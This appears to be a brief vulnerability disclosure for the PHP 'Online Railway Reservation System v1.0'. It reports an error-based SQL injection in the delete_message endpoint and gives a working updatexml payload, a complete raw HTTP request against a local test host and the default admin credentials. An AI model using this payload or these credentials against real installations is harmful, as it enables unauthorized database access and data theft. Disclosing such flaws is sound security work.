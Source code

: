 # Online Railway Reservation System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html

Vulnerability File: /orrs/classes/Master.php?f=delete_message

Vulnerability location: /orrs/classes/Master.php?f=delete_message, id=

Current database name: orrs_db,length is 7

[+] Payload:  id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /orrs/classes/Master.php?f=delete_message HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/orrs/admin/?page=inquiries
Content-Length: 65
Cookie: PHPSESSID=hea24clorqs9kplqalqihp0ik4
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/172339474-5b9be442-e8ef-4475-8520-cd359ad1df13.png)

